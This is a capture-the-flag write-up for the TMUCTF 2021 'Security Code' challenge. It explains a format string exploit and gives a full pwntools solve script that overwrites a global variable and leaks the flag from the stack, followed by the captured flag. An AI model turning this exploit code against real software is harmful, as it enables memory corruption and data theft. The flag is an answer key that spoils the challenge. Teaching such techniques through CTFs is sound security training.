

# Challenge Description
<p align="center">
  
</p>
<br>

# Writeup
This challenge has two steps. Both of them are `format string` vulnerabilities.  
In the first step, you have to overwrite the value of the `security_code` global variable. In the second step, you have to read the stack to leak the flag. 
Here is the full script (also available in [solve.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Security%20Code/Writeup%20Files/solve.py)):   
```python
import pwn
import time

i = 6
l = []
while(i != 30):
	r = pwn.remote('185.235.41.205', 7040)
	r.recvlines(11)
	r.sendline('A')
	r.recvline()
	w = {0x0804c03c:0xabadcafe}
	pay = pwn.fmtstr_payload(15, w)
	r.sendline(pay)
	r.recvline()
	r.recvline()	
	p = "%" + str(i) + "$p"
	r.sendline(p)
	adminPass = r.recvlines(3)[2].split(" ")[-1]
	l.append(adminPass)
	try:
		print(pwn.p32(int(adminPass, 16)))
	except:
		pass
	i = i + 1

pl = []
for k in l[6:21]:
	try:
		pl.append(pwn.p32(int(k, 16)))
	except Exception as e:
		pass
	
print("".join(pl))
```   
The flag:   
```
TMUCTF{50_y0u_kn0w_50m37h1n6_4b0u7_f0rm47_57r1n6_0xf7e11340}
```  
